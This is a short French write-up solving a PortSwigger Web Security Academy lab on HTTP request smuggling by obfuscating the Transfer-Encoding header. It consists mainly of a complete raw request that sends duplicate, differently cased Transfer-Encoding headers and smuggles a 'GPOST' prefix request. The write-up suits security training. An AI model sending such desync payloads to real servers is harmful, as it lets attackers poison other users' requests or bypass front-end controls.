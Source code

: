 # Lab

https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

## Solution

Avec l'extension `HTTP Request Smuggler` on trouve qu'une attaque peut être menée avec deux headers `Transfer-Encoding` et `Transfer-encoding`.

```http
POST / HTTP/1.1
Host: 0a3e000803e0601b80c7497500750052.web-security-academy.net
Cookie: session=7qdjiXECplsO3x2ukCZXt90FLhcmfVJ2
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Connection: close
Transfer-encoding: identity
Content-Length: 4

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```